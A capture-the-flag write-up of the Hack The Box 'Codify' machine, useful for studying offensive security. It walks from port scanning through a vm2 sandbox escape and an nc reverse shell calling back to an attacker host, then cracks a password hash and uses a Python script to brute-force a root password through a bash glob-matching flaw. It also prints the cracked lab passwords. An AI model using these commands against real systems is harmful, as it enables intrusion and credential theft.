# [Codify](https://app.hackthebox.com/machines/Codify)

```bash
nmap -p-  --min-rate 10000 10.10.11.239 -Pn
```



After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80,3000 10.10.11.239 -Pn
```




From nmap scan result, we can see ip address that resolved into `codify.htb`, let's add this into `/etc/hosts` file for resolving purposes.





So I know that `vm2` library is used, let's search publicly known exploit for this.

I find [CVE-2023-30547](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).


I copy this script and replace `Command Injection` via `cat /etc/passwd` and paste into Editor.




Now, let's replace command via reverse shell payload.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.4 1337 >/tmp/f
```




Hola! I got reverse shell from port `1337`.




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```




I find `tickets.db` file on `/var/www/contact`, let's get this file on our machine.

First, let's open http.server on target.
```bash
python3 -m http.server --bind 10.10.11.239 8080
```



Then download this file via `wget` command.

```bash
wget http://10.10.11.239:8080/tickets.db
```




Let's read this file's content via `sqlite3` command.




I can see `joshua` password hash here, let's crack this via `hashcat`.

```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```




joshua: spongebob1


Let's switch into `joshua` user via `su joshua` cmdlet.

user.txt




I just look at sudo permissions of this user via `sudo -l` command.




Let's read this script's content.




There's `BASH COMPARISON` vulnerability which is  the right side of == is not quoted, bash uses pattern matching instead of interpreting it as a string. If we give wildcard “*” it gives some weird output, it says Password confirmed, so we need to brute force the password.


Vulnerable Code in BASH:
```bash
if [[ $DB_PASS == $USER_PASS ]]; then   ##VULNERABLE COMPARISON
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

```




That's why we can brute-force correct password. For this, I code Python script.

```bash
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

Let's run this and get password of `root` user.




root: kljh12k3jhaskjh12kjh3


root.txt



